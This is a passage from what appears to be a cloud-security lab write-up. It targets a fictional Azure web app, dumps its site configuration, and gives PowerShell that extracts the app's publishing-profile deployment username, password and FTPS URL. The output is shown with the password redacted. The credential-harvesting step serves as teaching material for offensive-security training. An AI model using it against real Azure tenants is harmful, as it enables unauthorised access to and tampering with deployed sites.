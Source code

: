 ```
ManagedServiceIdentityId               : 21063
XManagedServiceIdentityId              : 
KeyVaultReferenceIdentity              : 
IpSecurityRestrictions                 : {Allow VPN, , Deny all}
ScmIpSecurityRestrictions              : {Deny all}
ScmIpSecurityRestrictionsUseMain       : True
Http20Enabled                          : False
MinTlsVersion                          : 1.2
ScmMinTlsVersion                       : 
FtpsState                              : FtpsOnly
PreWarmedInstanceCount                 : 
FunctionAppScaleLimit                  : 
HealthCheckPath                        : 
FunctionsRuntimeScaleMonitoringEnabled : 
WebsiteTimeZone                        : 
MinimumElasticInstanceCount            : 
AzureStorageAccounts                   : 
PublicNetworkAccess                    : 

```

We can retrieve the FTPS deployment URL, username and password with the commands below
```
$webAppName = "megabigtech-hr-portal"
$resourceGroupName = "mbt-rg-12"

$publishingProfileXml = [xml](Get-AzWebAppPublishingProfile -Name $webAppName -ResourceGroupName $resourceGroupName -OutputFile null)

$username = $publishingProfileXml.SelectSingleNode("//publishData/publishProfile[@publishMethod='MSDeploy']").userName
$password = $publishingProfileXml.SelectSingleNode("//publishData/publishProfile[@publishMethod='MSDeploy']").userPWD
$ftpsProfile = $publishingProfileXml.SelectSingleNode("//publishData/publishProfile[@publishMethod='FTP']")
$ftpsUrl = $ftpsProfile.publishUrl

$username
$password
$ftpsUrl
```
Let's run it
```
└─PS> $username
$megabigtech-hr-portal
```
```
┌──(kali㉿kali)-[/home/kali/pwnedlabs/azure]
└─PS> $password
<REDACTED>
```
```
┌──(kali㉿kali)-[/home/kali/pwnedlabs/azure]
└─PS> $ftpsUrl
ftps://waws-prod-bn1-159.ftp.azurewebsites.windows.net/site/wwwroot
```
